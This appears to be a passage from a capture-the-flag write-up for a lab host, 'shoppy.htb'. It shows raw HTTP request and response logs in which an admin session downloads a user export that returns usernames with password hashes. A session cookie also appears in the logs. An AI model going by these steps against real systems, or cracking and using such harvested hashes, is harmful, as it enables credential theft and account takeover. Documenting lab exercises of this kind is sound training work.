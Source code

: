 ```http
```

### response all user details
```http
HTTP/1.1 200 OK
Server: nginx/1.23.1
Date: Sat, 12 Nov 2022 21:02:34 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2720
Connection: close
ETag: W/"aa0-pUWRV3sz7MffT6vwbjEaqagPcmk"

<!DOCTYPE html>
<html>

<head>
    <meta charset="utf-8">
...
```

### request download user details
```http
GET /exports/export-search.json HTTP/1.1
Host: shoppy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://shoppy.htb/admin/search-users?username=admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: rl_anonymous_id=RudderEncrypt%3AU2FsdGVkX19FvvahQ%2B7ZEj%2FXSmcM95cOuWbQZOK%2BieIiFaolCJmdiE%2BF%2FdnL%2FRcwtHWHNQ1Ylydafx1MbTgo%2Bw%3D%3D; rl_group_id=RudderEncrypt%3AU2FsdGVkX19Mz5pAVIF%2FfhAv56FzvcYku%2BI0AI6QdKI%3D; rl_group_trait=RudderEncrypt%3AU2FsdGVkX1%2BmZVS906gLD7DEiyvYL237LlAXC1qnJns%3D; rl_user_id=RudderEncrypt%3AU2FsdGVkX1%2FGU%2BjXzsZd2y0qidarEHYAs6%2Bm4sIgmDyAMSvmUlHELYFlTFUaP5dT; rl_trait=RudderEncrypt%3AU2FsdGVkX1%2FJkvUtbKiJvcGDtYg6d4qCJmF%2BU3QwlZA%3D; connect.sid=s%3AqWc6ShfgWwKRQfALZ5HsMWE0xgqktPrd.LvmgVhuX5AmOGVKLLonGH%2BPW7YT84LpkkPxKyEktP2M
Connection: close
```

### response download user details
```http
HTTP/1.1 200 OK
Server: nginx/1.23.1
Date: Sat, 12 Nov 2022 21:02:36 GMT
Content-Type: application/json; charset=UTF-8
Content-Length: 200
Connection: close
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Sat, 12 Nov 2022 21:02:34 GMT
ETag: W/"c8-1846da6bcf6"

[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

